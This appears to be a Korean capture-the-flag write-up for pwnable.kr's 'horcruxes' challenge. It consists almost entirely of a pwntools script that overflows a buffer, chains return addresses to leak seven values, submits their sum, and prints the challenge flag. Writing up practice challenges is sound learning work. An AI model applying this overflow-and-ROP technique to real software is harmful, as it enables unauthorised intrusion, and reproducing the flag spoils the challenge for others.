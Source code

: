 ```python

p.sendline(payload)

p.interactive()

[Output]
... 생략 ...
You found "Tom Riddle's Diary" (EXP +2136229604)
You found "Marvolo Gaunt's Ring" (EXP +111881215)
You found "Helga Hufflepuff's Cup" (EXP +-1844281036)
You found "Salazar Slytherin's Locket" (EXP +-1596319302)
You found "Rowena Ravenclaw's Diadem" (EXP +1323649)
You found "Nagini the Snake" (EXP +965453206)
You found "Harry Potter" (EXP +-1413062383)
... 생략 ...
```

FLAG를 획득하자.

```python
from pwn import *

p = remote("pwnable.kr", 9032)

p.recvuntil('Select Menu:')
p.sendline('1')
p.recvuntil('How many EXP did you earned? : ')

A = 0x0809fe4b
B = 0x0809fe6a
C = 0x0809fe89
D = 0x0809fea8
E = 0x0809fec7
F = 0x0809fee6
G = 0x0809ff05
ropme = 0x0809fffc

payload = b'A' * (0x74 + 0x4)
payload += p32(A)
payload += p32(B)
payload += p32(C)
payload += p32(D)
payload += p32(E)
payload += p32(F)
payload += p32(G)
payload += p32(ropme)

p.sendline(payload)

p.recvuntil('You\'d better get more experience to kill Voldemort\n')
sum = 0
for i in range(7):
    data = p.recvuntil(')\n').decode().strip()
    sum += int(data[data.find('+')+len('+'):data.rfind(')')])

p.recvuntil('Select Menu:')
p.sendline('1')
p.recvuntil('How many EXP did you earned? : ')
p.sendline(str(sum))
p.interactive()

[Output]
Magic_spell_1s_4vad4_K3daVr4!
```
